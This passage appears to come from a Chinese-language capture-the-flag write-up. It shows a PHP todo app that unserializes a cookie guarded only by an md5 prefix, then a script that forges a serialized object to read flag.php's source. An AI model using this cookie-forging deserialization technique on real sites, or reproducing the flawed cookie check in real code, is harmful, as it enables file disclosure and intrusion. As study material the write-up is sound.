         $m = serialize($todos);
        $h = md5($m);
        setcookie('todos', $h.$m);
        header('Location: '.$_SERVER['REQUEST_URI']);
        exit;
    }
    ?>
    <html>
    <head>
    </head>
    
    <h1>Readme</h1>
    <a href="?source"><h2>Check Code</h2></a>
    <ul>
        <!-- 这里将变量 todos 进行一个遍历（从 $todos[] = $todo;）以及其需要遍历来看，其本身应该是一个数组，那么需要传入一个数组 -->
        <?php foreach($todos as $todo):?>
            <li><?=$todo?></li>
        <?php endforeach;?>
    </ul>
    
    <form method="post" href=".">
        <textarea name="text"></textarea>
        <input type="submit" value="store">
    </form>
    ```

3. 因此构造脚本，生成序列化的结果和 md5 加密后的字符串

    ```php
    <?php
    // 类不变，直接拿过来
    Class readme{
        public function __toString()
        {
            return highlight_file('Readme.txt', true).highlight_file($this->source, true);
        }
    }
    if(isset($_GET['source'])){
        $s = new readme();
        // 这里如果直接改成 flag.php，那么就可以直接读取到源码
        $s->source = 'flag.php';
        // 将变量 s 变成数组，因为它到时要被反序列化赋值给变量 todos
        $s=[$s];
        // 打印序列化的内容和序列化加密后的内容
        echo serialize($s);
        echo md5(serialize($s));
        echo $s;
        exit;
    }
    ```

4. 转换后的结果如下：

    ![image-20220617162348376](Serialization-PHP/image-20220617162348376.png)
